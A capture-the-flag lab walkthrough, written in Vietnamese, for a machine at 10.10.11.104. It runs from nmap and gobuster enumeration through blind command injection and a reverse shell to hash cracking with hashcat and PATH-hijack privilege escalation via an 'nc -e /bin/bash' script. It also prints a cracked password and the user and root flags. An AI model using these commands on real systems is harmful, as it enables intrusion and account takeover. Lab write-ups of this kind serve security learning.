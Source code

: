 ########################### ENUMURATE ###########################

sai nmap de scan port nao dang mo tren server 

nmap -T4 -sC -sV -Pn 10.10.11.104 -oN nmap.txt

2 port dang mo la 22 (ssh) va 80(http) webserver dang su dung la apache

sai gobuter de brute thu muc 


gobuster dir -u http://10.10.11.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x "php"

`
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/download.php         (Status: 302) [Size: 0] [--> login.php]   
/login.php            (Status: 200) [Size: 2224]                
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]                 
/nav.php              (Status: 200) [Size: 1248]                
/footer.php           (Status: 200) [Size: 217]                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2968] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
Progress: 2168 / 415288 (0.52%)                                              
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/config.php           (Status: 200) [Size: 0]              

`
#####################################################################


############################# EXPLOIT ###############################

su dung curl de tao acc 

curl -XPOST http://10.10.11.104/ -d "username=d47&password=d47&confirm=d47"

login vao

co file backup.zip => download => doc source => file logs.php co loi

blind command injection 

tao mot reverse shell 

nhung ko co quyen de doc file user.txt, nen can phai dang nhap vao voi quyen m4lwhere 

cho file config.php => co chua username vs password => connect vao mysql 

mysql -u root -p (password trong file config)

tim duoc password cua m4lwhere o trong database 

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

crack password cua m4lwhere sai hashcat
hashcat -m 500 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt
-m: loai hash dung de crack
-a : loai attack 0, co nghia la su dung dictionary attack
-o: output cua password da duoc crack



password: ilovecody112235!

nmap ban dau ta biet duoc la co 2 port dang mo la ssh, http , lay username, password login vao

user.txt => dc1e07036f5db6e73dcca8b99e820885

su dung path injection de leo quyen thanh root

ta thay trong file script no dang su dung lenh la gzip, date => co the chon 1 trong 2 de leo quyen root 

ta su dung date de tao reverse shell de chiem quyen root

b1: cd /tmp => echo "nc -e /bin/bash if port" > date
b2: cap quyen thuc thi cho file: chmod +x date
b3: dua path cua file date vao $PATH : export PATH:/tmp:$PATH
b4: sudo file_script => chiem duoc quyen root 


root.txt => e85ef00100f1c552535b5123979535bb

#####################################################################
